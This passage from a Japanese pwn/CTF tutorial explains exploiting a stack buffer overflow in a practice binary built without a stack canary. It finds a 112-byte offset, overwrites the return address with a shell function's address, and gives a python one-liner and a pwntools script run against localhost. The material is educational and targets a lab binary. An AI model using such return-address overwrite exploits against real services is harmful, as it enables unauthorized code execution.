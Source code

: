 
## exploitコード

　セキュリティ機構について書いたが、今回は簡易化のために、Stack Canaryを消してコンパイルを行った。

さっきまで見てきたように、どうも一定文字数後に入力された値にジャンプするようで、これはgdb見ながら解析するのでもよいがより簡易的に

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFHJIKLMNOPQRSTUVWXYZ
```

という文字の入力に対して```OPQR```がeipになったことからそれまでの文字列の長さがリターンアドレスまでのオフセットになっていると考察できる。これは112文字である。

このあとリターンアドレスを何に書き換えたいのかと言えば、shellのアドレスである。shellのアドレスは、objdumpの出力から0x80484fdである。以上より、112文字のオフセットのあとに、この関数アドレスを足した文字列を送り込む。ところで、関数アドレスはリトルエンディアンと言って([参照：エンディアン Wikipedia](https://ja.wikipedia.org/wiki/%E3%82%A8%E3%83%B3%E3%83%87%E3%82%A3%E3%82%A2%E3%83%B3#.E3.83.AA.E3.83.88.E3.83.AB.E3.82.A8.E3.83.B3.E3.83.87.E3.82.A3.E3.82.A2.E3.83.B3))、例えば4バイトの数は後ろから順番にメモリに格納される、という事実に注意する。

また、プログラムの実行に関しては本番を想定して次のように行う。

```
socat TCP-L:3000,reuseaddr,fork EXEC:./echo2
```

これにより、ポート3000にアクセスすると、サーバーとの通信をしているような形で問題を解くことができる

```
$ nc localhost 3000
**Greeting service**
What's your name: moratorium08
Hello, moratorium08
```

また、この場合、外部との通信をやりとりするには、

```
$ python -c "print('A' * 112 + '\xfd\x84\x04\x08')" > dump
$ cat dump - | nc localhost 3000
```
のようにしてもよいが、pythonのライブラリ（特にpwn用に作られたライブラリ）を使うと、細かいことを気にせずスクリプトがかけて便利である。pwntoolsというのが個人的に便利だと思っていて、

```
$ pip install pwntools
```
でインストール可能である。


```
# coding:utf-8
from pwn import remote, p32

host = "127.0.0.1"
port = 3000

r = remote(host, port)

r.recvuntil("name: ")

code = "A" * 112  # dummy
code += p32(0x80484fd)
print(code)
r.sendline(code)

r.interactive()
```
